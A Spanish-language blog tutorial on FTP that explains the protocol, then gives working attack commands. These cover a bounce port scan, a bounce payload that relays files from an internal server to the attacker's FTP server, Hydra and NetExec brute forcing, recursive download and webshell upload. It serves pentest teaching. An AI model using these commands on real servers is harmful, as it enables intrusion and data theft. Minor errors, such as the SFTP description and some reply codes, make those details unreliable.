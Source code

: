 ```yaml
---
lang: es
title: "Introducción a FTP"
summary: "Este artículo presenta el protocolo FTP (File Transport Protocol), un protocolo cliente-servidor usado para la transferencia de archivos a través de una red. Este artículo explica la arquitectura FTP, canales de comunicación, los comandos y los riesgos de seguridad."
date: 2024-07-24
tag:
    - Ciberseguridad
    - Pentesting
    - FTP
---
```


El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accedidos por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol).

<!-- more -->

Si bien existen implementaciones con interfaz gráfica, en este artículo haremos uso de la herramienta de línea de comandos de FTP, la cual nos da bastante flexibilidad a la hora de trabajar con el protocolo. En artículos posteriores exploraremos las principales implementaciones de cliente y servidor, aunque en este nos centraremos en explicar los conceptos básicos del protocolo, como trabajar con él y como aprovechar algunas malas configuraciones.


## Teoría

### Canales de comunicación

Para el funcionamiento de FTP se requieren de dos canales de comunicación, uno para el envío de comandos y otro para los datos.

### Modos de conexión

#### Activo

Es el modo de conexión predeterminado para las conexiones FTP, en él ocurren dos eventos:

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se intenta abrir una conexión desde el puerto de datos del servidor (20 por defecto) al puerto P+1 del cliente.

!!! nota

    El modo activo puede presentar problemas con los firewalls del cliente debido a que intenta crear una conexión directa a un puerto del lado cliente, lo cual puede ser bloqueado por ciertos firewalls.


#### Pasivo

Este modo surge como solución al problema de los firewalls del cliente, aquí se modifica el flujo de trabajo de modo que tanto la conexión de datos como la conexión del cliente se inician desde el cliente, podemos desglosarlo en dos eventos.

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se abre una conexión de datos desde el puerto P+1 del cliente a un puerto del canal de datos del servidor, este proceso se repite para cada transferencia de archivos ocupando un puerto distinto del servidor en cada conexión (esto puede ser configurado en la mayoría de los software del lado servidor) .

!!! nota

    El modo pasivo requiere de la apertura de un rango de puertos en el firewall, esto puede generar algunos problemas de seguridad si esta apertura de puertos no se configura de manera correcta.


## Comandos FTP

```bash
CWD  -> Cambia el directorio actual por el especificado
DELE -> Elimina el archivo especificado
EPRT -> Establecer un socket para la conexión de datos
LIST -> Lista los archivos en el directorio actual
PASV -> Cambia el modo a pasivo
PWD  -> Muestra el directorio actual 
RETR -> Descarga el archivo especificado
```

## Anonymous login

Existe una configuración de FTP que permite el uso de un login para compartir ficheros para cualquier usuario que lo requiera, en caso de que esta configuración este habilitada un usuario podría usar anonymous como nombre de inicio de sesión y cualquier contraseña acceder al servidor como un usuario con bajos privilegios, aunque en ciertos casos esto puede llevar a comprometer el sistema entero.

## FTP Bounce port scan

Es posible abusar de los comandos PORT y ERPT para realizar un escaneo de puertos abiertos mediante un servidor FTP.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Una vez conectado podemos realizar el escaneo de puertos mediante los comandos PORT y ERPT seguidos de un comando LIST .

Aquí tenemos un ejemplo para escanear el puerto 9091 del host 10.10.10.14

```bash
PORT 10,10,10,14,0,9091
EPRT |2|10.10.10.14|9091|

LIST
```

Si la respuesta es un 150 el puerto está abierto, en caso de recibir un 415 el puerto está cerrado.

## FTP Bounce file get

Este ataque permite a un atacante descargar ficheros de un servidor FTP no accesible por el atacante, pero al que sí puede llegar un servidor FTP accesible por el atacante

![Net Diagram](../../../assets/posts/2024/11/14/net_diagram.png)

Este ataque tiene los siguientes prerequisitos:

- Credenciales válidas para External FTP.
- Credenciales válidas para Internal FTP.
- Acceso de escritura para External FTP.
- Permisos de ejecución del comando PORT tanto en External como en Internal.

Primero que nada desplegaremos un servidor FTP en la máquina del atacante, este servidor tiene que soportar el modo pasivo.

Una vez desplegado abriremos una conexión pasiva con el comando PASV y le diremos que la guarde con STOR output.ext .

Ahora crearemos un archivo con los comandos que queremos lanzar contra el segundo servidor, un ejemplo seria el siguiente:

```bash
user ftp   # Usuario para el servidor internal
pass password # Password para el servidor internal
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #Nuestro puerto pasivo
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Ahora lo subimos con PUT y desde el servidor externo ejecutamos los siguientes comandos:

```bash
put payload
quote "port C,C,C,C,0,21" # IP del servidor interno
quote "retr payload"
```

Tras esto tendremos el archivo file.ext en nuestro servidor como output.ext

## Ataque por fuerza bruta

Muchos de los servidores FTP no presentan protección contra ataques por fuerza bruta. Teniendo un usuario o una lista de ellos podemos llevar a cabo un ataque de fuerza bruta con diferentes credenciales obtenidas de diversas fuentes, si bien existen varias herramientas para este fin, las dos más comunes son NetExec e Hydra. 

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Backup sorpresa

Esto no es un ataque per se, pero es bastante útil, ya que nos permite descargar todos los archivos accesibles del servidor mediante un solo comando.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

En determinadas circunstancias, el permiso para subir ficheros al servidor junto a otras malas configuraciones puede llevar a la obtención de ejecución remota de comandos en el servidor.

El caso más común es la posibilidad de subir ficheros que van a ser luego servidos por un servidor web, donde podríamos subir una webshell interpretable por el servidor para lograr obtener ejecución de comandos.

## Sniffing credentials

Dado que FTP funciona por defecto en texto plano, es posible para un atacante en la misma red usar un sniffer y capturar tanto las credenciales como la conversación FTP.


En el próximo artículo de esta serie sobre FTP hablaremos sobre fallos comunes de implementación y algunas vulnerabilidades conocidas de algunas implementaciones del protocolo.

---
